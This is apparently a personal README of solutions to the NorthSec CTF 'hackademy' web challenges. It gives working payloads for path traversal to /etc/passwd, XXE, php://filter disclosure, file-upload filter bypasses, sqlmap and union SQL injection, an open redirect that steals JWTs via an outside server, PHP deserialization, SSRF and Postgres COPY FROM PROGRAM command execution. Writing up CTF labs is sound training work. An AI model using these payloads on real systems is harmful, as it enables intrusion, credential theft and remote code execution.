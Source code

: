 ## hackademy-writeup

Every year, I participate in the NorthSec CTF, and every year, when I come face to face with the hackademy track, my mind just goes blank.
This writeup is intended for personal use in the same track next year, but hey, I made the repo public if it can help anyone!

### Automatization 101
Check source code

### Automatization 102
Look at the robots.txt file

### Inclusion 101
Change the ```?page=welcome.php``` to ```/etc/passwd```

### Inclusion 102
This is an XXE, check the source code, then catch the request in burp, modify the body in the repeater for something like this:<br>
```<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY ext SYSTEM "file:///etc/passwd" >]><function><getConversation>&ext;</getConversation></function>```

(thanks lolkatz)

### Inclusion 103
PHP convert to Base64... add ```php://filter/convert.base64-encode/resource=index.php``` after the ```?page=```<br>
Decode the string

### Upload 101
Create a basic PHP script like ```<?php echo 'Hello World'; ?>``` and name it script.jpg.php (security only checks the first .xxx)

### Upload 102
Upload the script created in Upload 101 and catch the request in Burp Repeater and change the ```Content-type``` to ```image/jpeg```

### Upload 103
This step checks the file signature, force the PNG file signature ```89 50 4E 47 0D 0A 1A 0A``` in the first bytes of the script created earlier

### Upload 104
Same as upload 101 but change the name of the script to script.png.php3

### SQL 101
Kinda hard for a 101 track, but use sqlmap with this command:```sqlmap u "URL HERE" --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ```

### SQL 102
Directly in the username field, enter the injection: ```' union SELECT '','',''--```

### Open Redirect 101
My team owns a small server on the CTF network, so we redirect the user there ```URL.ctf/?sub_url=http://shell.ctf```<br>
Look at the logs on the server, we can see his JWT token.<br>
Go to ```URL.ctf/?identity=(insert JWT)``` (reminder; the token is only valid for 20mins)

### Serialize 101
Look at the source code and change the WelcomeMessage function by the function that outputs the base64 string, GiveMeFlagPrettyPlease()<br>
This is the final payload:
```
<?php
    class Hackademy{
        private $call = "GiveMeFlagPrettyPlease";
    }   
    $serialized = serialize(new Hackademy());

    // Output
    echo "Serialized:\n";
    echo $serialized;
    echo "\n";
    echo "Encoded:\n";
    echo base64_encode($serialized);
    echo "\n";
?>
```
I then use the output in the URL parameter, and it gives me the flag :)

### Forgery 101
In the url input: ```file:///var/www/html/api/config.php```<br>
We got the first flag, but also some credentials for Forgery 102

### Forgery 102
URL: ```http://localhost:8080```<br>
Method: ```POST```<br>
Params: ```user=postgres&password=Let%26me%3Din&query=SELECT * FROM pg_tables```<br>
Then modify the params for ```user=postgres&password=Let%26me%3Din&query=SELECT * from flag.flag_numbersFoundWithPreviousCommand```

### Forgery 103
Different commands to try in the params:
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'ls /';
SELECT * FROM cmd_exec;
COPY cmd_exec FROM PROGRAM 'cat /flag_is_in_here_numbersFoundWithPreviousCommand.txt';
SELECT * FROM cmd_exec;
```
